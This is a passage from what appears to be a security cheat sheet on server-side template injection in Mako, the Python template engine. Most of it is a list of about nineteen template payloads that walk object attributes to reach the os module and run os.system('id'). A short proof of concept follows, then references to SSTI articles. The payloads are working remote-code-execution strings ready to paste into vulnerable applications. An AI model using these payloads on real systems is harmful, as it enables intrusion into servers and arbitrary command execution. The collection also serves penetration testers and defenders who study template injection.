 ```python
${self.template._mmarker.module.filters.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.cache.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.exceptions.util.os.system("id")}
${self.template.module.filters.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.runtime.util.os.system("id")}
${self.context._with_template._mmarker.module.cache.util.os.system("id")}
${self.template.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.filters.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.cache.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("id")}
${self.context._with_template._mmarker.module.runtime.util.os.system("id")}
${self.context._with_template.module.filters.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.exceptions.util.os.system("id")}
${self.template.module.runtime.exceptions.traceback.linecache.os.system("id")}
```

PoC :

```python
>>> print(Template("${self.module.cache.util.os}").render())
<module 'os' from '/usr/local/lib/python3.10/os.py'>
```

## References

- [Cheatsheet - Flask & Jinja2 SSTI - phosphore - September 3, 2018](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
- [Exploring SSTI in Flask/Jinja2, Part II - Tim Tomes - March 11, 2016](https://web.archive.org/web/20170710015954/https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)
- [Jinja2 template injection filter bypasses - Sebastian Neef - August 28, 2017](https://0day.work/jinja2-template-injection-filter-bypasses/)
- [Python context free payloads in Mako templates - podalirius - August 26, 2021](https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/)
